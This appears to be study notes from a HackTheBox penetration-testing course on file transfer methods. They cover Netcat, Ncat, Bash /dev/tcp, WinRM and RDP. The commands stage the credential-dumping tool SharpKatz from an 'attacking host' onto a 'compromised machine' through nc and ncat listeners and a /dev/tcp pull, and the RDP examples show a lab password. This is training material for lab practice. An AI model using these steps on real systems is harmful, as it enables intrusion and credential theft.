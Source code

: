 ## Miscellaneous File Transfer Methods

We've covered various methods for transferring files on Windows and Linux. We also explored ways to achieve the same goal using different programming languages, but there are still many more methods and applications that we can use.

This section will cover alternative methods such as transferring files using **Netcat**, **Ncat**, and **using RDP and PowerShell sessions**.

---

#### **Netcat**

Netcat (often abbreviated to `nc`) is a computer networking utility for reading from and writing to network connections using TCP or UDP, which means it can be used for file transfer operations.

The original Netcat was released by Hobbit in 1995, but it hasn't been maintained despite its popularity. The flexibility and usefulness of this tool prompted the Nmap Project to produce **Ncat**, a modern reimplementation that supports SSL, IPv6, SOCKS and HTTP proxies, connection brokering, and more.

In this section, we will use both the original Netcat and Ncat.

> **Note**: Ncat is used in HackTheBox's PwnBox as `nc`, `ncat`, and `netcat`.

---

#### **File Transfer with Netcat and Ncat**

The target or attacking machine can initiate the connection, which is helpful if a firewall prevents access to the target. Let's create an example to transfer a tool to our target.

##### Example 1: Using Netcat (Original)

1. On the **compromised machine**, start Netcat listening with:
    
    ```
    victim@target:~$ nc -l -p 8000 > SharpKatz.exe
    ```
    
2. From the **attacking host**, send the file with:
    
    ```
    0xs5@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
    0xs5@htb[/htb]$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
    ```
    

##### Example 2: Using Ncat

1. On the **compromised machine**, start Ncat with:
    
    ```
    victim@target:~$ ncat -l -p 8000 --recv-only > SharpKatz.exe
    ```
    
2. From the **attacking host**, send the file with:
    
    ```
    0xs5@htb[/htb]$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
    ```
    

##### Reverse File Transfer

Instead of listening on the compromised machine, we can:

1. On the **attacking host**, listen with:
    
    ```
    0xs5@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
    ```
    
2. On the **compromised machine**, connect to the attacker with:
    
    ```
    victim@target:~$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
    ```
    

##### Alternative Using Bash

If Netcat/Ncat is unavailable on the compromised machine, Bash can perform read/write operations on `/dev/tcp/`:

1. On the **attacking host**:
    
    ```
    0xs5@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
    ```
    
2. On the **compromised machine**:
    
    ```
    victim@target:~$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
    ```
    

---

#### **PowerShell Session File Transfer**

PowerShell Remoting, aka WinRM, can transfer files when HTTP, HTTPS, or SMB are unavailable. PowerShell Remoting uses:

- **TCP/5985** for HTTP
    
- **TCP/5986** for HTTPS
    

##### Example: File Transfer via WinRM

1. Confirm connectivity from **DC01** to **DATABASE01**:
    
    ```
    PS C:\htb> Test-NetConnection -ComputerName DATABASE01 -Port 5985
    ```
    
2. Create a session:
    
    ```
    PS C:\htb> $Session = New-PSSession -ComputerName DATABASE01
    ```
    
3. Transfer files:
    
    - From DC01 to DATABASE01:
        
        ```
        PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
        ```
        
    - From DATABASE01 to DC01:
        
        ```
        PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
        ```
        

---

#### **RDP File Transfer**

**RDP (Remote Desktop Protocol)** allows file transfers using copy/paste or mounting local resources:

1. **From Linux**:
    
    - Using `rdesktop`:
        
        ```
        0xs5@htb[/htb]$ rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
        ```
        
    - Using `xfreerdp`:
        
        ```
        0xs5@htb[/htb]$ xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
        ```
        
2. **From Windows**:
    
    - Use **mstsc.exe** to share a local drive during connection.
        

> **Note**: Mounted drives are private to the session and inaccessible to other users.

---

#### **Practice Makes Perfect**

Mastering these techniques is essential for real-world assessments and labs. Apply them in:

- **Active Directory Enumeration and Attacks**
    
- **Pivoting, Tunneling & Port Forwarding**
    
- **Attacking Enterprise Networks**
    
- **Shells & Payloads**
    

Experiment with each method to build muscle memory and adaptability for different environments. In the next section, we'll discuss protecting file transfers when dealing with sensitive data.